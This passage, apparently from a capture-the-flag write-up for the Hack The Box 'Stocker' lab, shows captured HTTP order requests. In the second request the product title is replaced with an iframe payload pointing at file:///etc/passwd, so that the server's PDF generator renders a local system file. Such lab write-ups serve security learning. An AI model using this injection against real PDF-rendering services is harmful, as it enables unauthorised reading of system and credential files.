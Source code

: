 Now lets check out the request made 

```
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 328
Connection: close
Cookie: connect.sid=s%3A8XVW8w791Amd4QZxsCRVUrl7-hfnlp7V.ispsz43tztEA0VsYgsK3XS4vF%2FNjg6pMRBVsqFdRJOk

{"basket":[{"_id":"638f116eeb060210cbd83a93","title":"Toilet Paper","description":"It's toilet paper.","image":"toilet-paper.jpg","price":0.69,"currentStock":4212,"__v":0,"amount":1},{"_id":"638f116eeb060210cbd83a91","title":"Axe","description":"It's an axe.","image":"axe.jpg","price":12,"currentStock":21,"__v":0,"amount":1}]}
```

Hmmmm the title of the item purchased is being reflected on the pdf also the id is reflected in the url 
![image](https://user-images.githubusercontent.com/113513376/213949165-096cd71c-ed4d-4591-af60-04dfff924410.png)


This could potentially be a location that we can include local files in the system

Lets use burp repeater to change the json "title" value to an iframe to see if we can get the pdf to reflect the /etc/passwd/ file 

"title": "<iframe src=file:///etc/passwd height:500px width: 500px></iframe>"

```
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 383
Connection: close
Cookie: connect.sid=s%3A8XVW8w791Amd4QZxsCRVUrl7-hfnlp7V.ispsz43tztEA0VsYgsK3XS4vF%2FNjg6pMRBVsqFdRJOk

{"basket":[{"_id":"638f116eeb060210cbd83a93","title": "<iframe src=file:///etc/passwd height:500px width: 500px></iframe>","description":"It's toilet paper.","image":"toilet-paper.jpg","price":0.69,"currentStock":4212,"__v":0,"amount":1},{"_id":"638f116eeb060210cbd83a91","title":"Axe","description":"It's an axe.","image":"axe.jpg","price":12,"currentStock":21,"__v":0,"amount":1}]}
```
![image](https://user-images.githubusercontent.com/113513376/213949318-6a17e51d-8668-41c4-8d90-dea267eadcee.png)

